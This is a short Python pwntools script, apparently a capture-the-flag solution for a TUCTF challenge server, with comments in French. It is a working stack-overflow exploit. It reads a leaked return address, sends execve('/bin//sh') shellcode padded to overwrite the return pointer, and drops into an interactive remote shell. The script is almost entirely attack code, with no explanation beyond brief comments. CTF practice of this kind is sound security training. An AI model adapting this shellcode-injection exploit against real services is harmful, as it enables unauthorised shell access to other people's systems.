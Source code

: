 `#coding: utf-8
from pwn import *

IP = "chal.tuctf.com"
PORT = 30507

p = remote(IP, PORT)

ret = ""
pad = 40 #Padding pour réecrire le EIP

# Shellcode 64 : https://www.exploit-db.com/exploits/36858
shellcode = "\x31\xf6\x48\xbb\x2f\x62\x69" \
            "\x6e\x2f\x2f\x73\x68\x56\x53" \
            "\x54\x5f\x6a\x3b\x58\x31\xd2" \
            "\x0f\x05"

#Récupère l'adresse EIP
leak_ret = p.readuntil(">").split("\n")[1]
leak_ret = int(leak_ret, 16)

# Shellcode + Padding + RET_EIP
payload = shellcode+"A"*(pad-len(shellcode))+p64(leak_ret)*2

p.send(payload)
p.interactive()`
